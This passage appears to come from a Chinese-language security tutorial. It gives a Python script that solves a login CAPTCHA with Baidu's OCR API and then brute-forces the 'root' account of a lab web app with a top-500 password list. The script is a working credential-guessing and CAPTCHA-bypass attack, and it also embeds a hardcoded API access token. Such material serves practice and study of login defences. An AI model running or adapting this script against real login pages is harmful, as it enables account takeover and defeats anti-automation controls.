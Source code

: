 ```python
    request_url = request_url + "?access_token=" + access_token
    headers = {'content-type': 'application/x-www-form-urlencoded'}
    response = requests.post(request_url, data=params, headers=headers)
    # print(response.text)


# 利用OCR实现爆破
```

### 四、基于Python进行爆破

```python
def burst_login(password):
    # 虽然百度接口可以直接读取验证码的URL地址，但是内网IP不可以访问
    # data={'url':'http://192.168.72.148/security/vocde.php'}
    session = requests.session()

    # 先获取验证码图片的二进制数据
    resp_vcode = session.get('http://192.168.72.148/security/vocde.php')
    img = base64.b64encode(resp_vcode.content)

    params = {"image": img}
    access_token = '24.e040ac8e3e558a18c30e283ea21ae727.2592000.1660553456.282335-26712422'
    baidu_url = "https://aip.baidubce.com/rest/2.0/ocr/v1/accurate_basic"
    baidu_url = baidu_url + "?access_token=" + access_token
    headers = {'content-type': 'application/x-www-form-urlencoded'}
    resp_baidu = requests.post(baidu_url, data=params, headers=headers)
    vcode = '0000'
    if resp_baidu:
        vcode = resp_baidu.json()['words_result'][0]['words']
    # print(vcode)

    # 进行登录的爆破
    data = {'username': 'root', 'password': password, 'vcode': vcode}
    login_url = 'http://192.168.72.148/security/login-3.php'
    resp = session.post(url=login_url, data=data)
    if "vcode-error" in resp.text:
        # 直接将验证码出错时的密码输出，然后等本轮爆破完毕，再对验证码出错的密码单独爆破
        print(f'验证码出错:{data}')
    else:
        if ("login-fail" not in resp.text):
            print(f'登录成功，Payload为:{data}')


if __name__ == '__main__':

    with open('../top500.txt') as file:
        pass_list = file.readlines()
    for password in pass_list:
        burst_login(password.strip())
        time.sleep(2)
```
